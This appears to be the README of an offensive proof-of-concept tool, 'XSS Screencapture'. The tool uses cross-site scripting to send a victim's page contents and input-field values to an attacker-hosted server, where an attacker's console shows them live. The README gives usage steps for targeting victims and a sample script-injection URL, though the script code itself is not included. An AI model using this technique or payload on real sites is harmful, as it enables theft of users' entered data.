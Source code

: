 #XSS Screencapture

##Overview
This is a very simple, POC script and server-side pages that will send the entire HTML contents and values of input boxes back to an attacker. You must
host the files on a server. Then, simply inject the "injectme.js" script into any site vulnerable to XSS. Once the page is live (send the link to the
victim containing the XSS), open the console.html page and wait for updates.

##Usage
* Edit the injectme.js file and set "remote_post" to the full URL of where the POST page will reside on your server.
* Upload the console.html, injectme.js, page.html, and post.php files to your server.
* Find a site vulnerable to XSS. Use XSS to load the injectme.js script from your server (you can use link shorteners or host the injectme.js file on a
domain with few characters to overcome length restrictions).
* Next, open the console.html page.
* Wait for the victim to open the vulnerable page. When he or she does, the console will refresh with the live page contents and the contents of any input boxes.

##Testing
I have created a test.php file to demonstrate this script. Load the page like so: ```http://site.com/test.php?a=<script src="http://site.com/injectme.js"></script>```

##Limitations
* Single-user only - if multiple users open the vulnerable page, the sessions will be mixed.
* Doesn't get user-supplied data in non-input elements (i.e. textareas, select boxes, etc.)

##File Contents
* injectme.js - the script to inject as part of the XSS payload
* page.html - a blank HTML file that the server will write to when the victim clicks the link. Do not edit this page.
* post.php - the server side file that receives the POST from the victim and writes the HTML to page.html
* console.html - the page the attacker uses to monitor changes made to the victim's page
* test.php - a sample victim page vulnerable to XSS